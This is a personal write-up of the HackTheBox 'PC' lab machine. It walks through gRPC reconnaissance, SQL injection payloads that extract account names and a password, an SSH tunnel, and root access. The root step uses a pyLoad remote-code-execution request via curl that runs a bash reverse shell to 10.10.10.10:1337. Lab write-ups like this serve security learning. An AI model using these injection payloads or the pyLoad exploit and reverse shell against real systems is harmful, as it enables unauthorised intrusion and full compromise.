 # PC

### Recon

- port 22 SSH
- port 50051 gRPC

Needed help identifying the port, [used this walkthrough](https://dickytrianza.medium.com/hackthebox-writeup-pc-b787db46f82b) for the gRPC part (remember to google default port 
next time!)

gRPC (Google Remote Procedure Call) is an open-source, high performance framework developed by Google that 
allows communication between client and server applications. It's designed to facilitate efficient and 
reliable data exchange between distributed systems and is commonly used in microservices architecture.

Connect to gRPC port with grpcui browser, or use Postman to send requests

`grpcui --plaintext 10.10.11.214:50051`

admin:admin is used as credentials

### Exploitation

id parameter is injectable, sqlmap didn't work for me so looked [at this walkthrough](https://medium.com/@fares7elsadek/hackthebox-writeup-pc-1c0178023411)

Find first username, admin

```
{
	"id":"543 union SELECT username FROM accounts WHERE username NOT like 'sqlite_%' limit 1--"
}
```

Look at second username, sau

```
{
	"id":"543 union SELECT username FROM accounts LIMIT 1 OFFSET 1;"
}
```

Find password for sau

```
{
	"id":"543 SELECT password FROM accounts WHERE username='sau';"
}
```

linpeas.sh shows 127.0.0.1:8000 as listening  

Use an ssh tunnel to access pyload running on the target

`ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214`

### Privilege Escalation

Google shows pyload suffers from an [RCE vulnerability](https://www.exploit-db.com/exploits/51532) and ps aux shows it's running as root.

Write a bash reverse shell on the target

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.10.10/1337 0>&1
```

Use curl to to execute the reverse shell granting root access to the target

`curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"bash%20/tmp/bash.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'`

-i - include HTTP response headers in output
-s - silent mode
-k - insecure mode, skip verification step

*Note: $'' is ANSI-C quoting, allowing backslash-escaped characters to be replaced as specified by the ANSI C 
standard. [Source](https://www.gnu.org/software/bash/manual/html_node/ANSI_002dC-Quoting.html#ANSI_002dC-Quoting)*
